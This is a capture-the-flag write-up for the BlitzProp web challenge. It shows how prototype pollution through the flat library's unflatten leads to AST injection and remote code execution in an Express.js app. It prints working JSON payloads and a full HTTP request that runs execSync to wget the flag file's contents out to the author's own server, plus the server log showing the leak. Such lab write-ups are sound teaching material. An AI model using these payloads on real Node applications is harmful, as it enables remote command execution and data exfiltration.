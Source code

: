 # BlitzProp

Challenge text:
```
A tribute page for the legendary alien band called BlitzProp!
```
And the [source code](web_blitzprop)

The webpage had a form where you could submit your favorite song, which got send to the express.js backend in json format. Example:
```json
{
    "song.name": "ASTa la vista baby"
}
```
As we see in the source code, the request body is [unflattened](https://www.npmjs.com/package/flat), before later worked on. Due to this, and the hints from the song names, I assumed that the site was vulnerable to AST injection via prototype pollution. 

I found [this great blog post explaining it](https://blog.p6.is/AST-Injection/), and a working payload at the bottom.
```json
{
    "song.name": "ASTa la vista baby",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`ls`)"
    }
}
```
Now all I had to do was execute a shell command which would somehow get me the flag file (as I couldn't see the output of the shell commands). I tried a bash reverse shell, to no avail, and the machine didn't have curl either. I ended up wget'ting my web server with the flag file's content as the url path, which gave me the flag.

```
POST /api/submit HTTP/1.1
Host: 138.68.148.149:30964
Content-Length: 208
Content-Type: application/json
Accept: */*
Origin: http://138.68.148.149:30964
Referer: http://138.68.148.149:30964/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{
    "song.name": "ASTa la vista baby",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`wget myurl/$(cat /app/flag*)`)"
    }
}
```

And on my webserver I saw
```bash
$ py -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
138.68.148.149 - - [21/Apr/2021 22:05:33] code 404, message File not found
138.68.148.149 - - [21/Apr/2021 22:05:33] "GET /CHTB{p0llute_with_styl3} HTTP/1.1" 404 -
```